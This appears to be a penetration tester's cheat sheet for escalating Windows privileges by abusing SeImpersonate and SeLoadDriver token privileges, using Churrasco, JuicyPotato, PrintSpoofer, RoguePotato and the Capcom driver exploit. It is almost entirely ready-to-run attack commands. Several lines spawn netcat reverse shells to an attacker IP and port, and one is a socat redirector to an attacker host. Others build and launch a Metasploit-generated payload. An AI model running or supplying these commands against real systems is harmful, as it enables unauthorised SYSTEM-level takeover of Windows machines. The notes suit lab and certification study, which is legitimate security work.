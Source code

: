 # windows token exploits

## Churrasco

```bash
REQUIREMENT: SEImpersonalPrivilege
| Windows XP/VISTA/2003/2008, Win Server 2003

# usage
> churrasco.exe -d "nc.exe -e cmd.exe IP PORT"
```

## HotPotato

```bash
Windows 7,8,10, Server 2008, Server 2012: Try Hot Potato
```

## JuicyPotato.exe \[/opt/juicy-potato-exe]

```bash
REQUIREMENT:
| SeImpersonatePrivilege
| machine is < Windows 10 1809 < Windows Server 2019
CLSID: http://ohpe.it/juicy-potato/CLSID/ | {03ca98d6-ff5d-49b8-abc6-03dd84127020}

# /opt/juicy-potato/CLSID/GetCLSID.ps1
> JuicyPotato.exe -l 1337 -p "c:\windows\system32\cmd.exe" -a "/c PATH\nc.exe -e cmd.exe IP PORT" -t * -c CLSID
> Juicy.Potato.x86.exe -l 1337 -p "c:\users\public\kashz.exe" -t * -c CLSID

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
```

## [PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) \[/opt/printspoofer]

```bash
REQUIREMENT
| SeImpersonatePrivilege 
| Win10, Server 2016, Server 2019

> PrintSpoofer.exe -i -c cmd.exe
> PrintSpoofer.exe -c "nc.exe IP PORT -e cmd.exe"
```

## [RoguePotato ](https://github.com/antonioCoco/RoguePotato)\[/opt/rogue-potato-exe]

```bash
REQUIREMENT:
| SeImpersonatePrivilege
| machine is >= Windows 10 1809 & Windows Server 2019

# socat redirector for OXID resolving, must use 135
$ socat tcp-listen:135,reuseaddr,fork tcp:KALI_IP:9999
> RoguePotato.exe -r KALI_IP -e "PATH\nc.exe IP PORT -e cmd.exe" -l 9999
```

## [SeLoadDriverPrivilege](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#capcom-sys-driver-exploit)

```bash
# obtain user SID
 | Get-ADUser -Identity 'svc-print' | select SID
 | (New-Object System.Security.Principal.NTAccount("svc-print")).Translate([System.Security.Principal.SecurityIdentifier]).value

# vs-code execution:
https://github.com/tandasat/ExploitCapcom/
# file ExploitCapcom.cpp
# line 410
TCHAR CommandLine[] = TEXT("C:\\Users\\Public\\kashz.exe");
# build solution for release
# generate kashz.exe using msf

# run
.\ExploitCapcom.exe
```
